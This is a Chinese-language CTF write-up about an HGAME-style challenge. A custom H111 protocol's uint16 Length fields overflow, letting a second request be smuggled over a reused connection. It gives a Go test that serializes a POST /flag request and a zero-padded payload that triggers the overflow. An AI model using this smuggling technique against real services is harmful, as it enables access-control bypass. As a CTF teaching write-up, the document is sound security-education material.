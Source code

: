 这是一道关于整数溢出打协议⾛私的题目

题目给出的web服务⾃定义了⼀个H111协议，我们可以发现这个自定义协议中的所有`Length`字段均为`uint16`类型(0~65535)，而且没有做任何的长度限制，也就是说存在整数溢出

而且这个协议是支持连接复用的，也就是同一TCP连接可处理多个请求。第一个请求发生溢出后，残留数据与后续请求混合后，服务端会错误解析到我们第二个请求，从⽽⾛私进第⼆个请求。

官方wp是这么说的：

![image-20250223212701781](../assets/image-20250223212701781.png)

开始复现

先编写⼀段测试，放在protocol/request_test.go，通过go test -v -run TestGenRequest拿到输出

```go
package protocol

import (
	"bytes"
	"encoding/hex"
	"net/http"
	"testing"
)


func TestGenRequest(t *testing.T) {
	var buf bytes.Buffer
	err := WriteH111Request(&buf, &http.Request{
		Method: "POST",
		RequestURI: "/flag",
	})
	if err != nil {
		t.Fatalf("expected no error, got %v", err)
	}
	t.Log(len(buf.Bytes()))
	t.Log(hex.EncodeToString(buf.Bytes()))
}
```

用`WriteH111Request`序列化一个POST /flag请求

![image-20250223214912663](../assets/image-20250223214912663.png)

序列化后的十六进制数据

```
0004504f535400052f666c616700000000
```

在这段数据后⾯补⻬0，补⻬到65536，产⽣Length溢出

payload:

```
GET / HTTP/1.1
Host: node1.hgame.vidar.club:30529

{{hexdec(0004504f535400052f666c616700000000)}}{{padding:zero(0|65519)}}
```
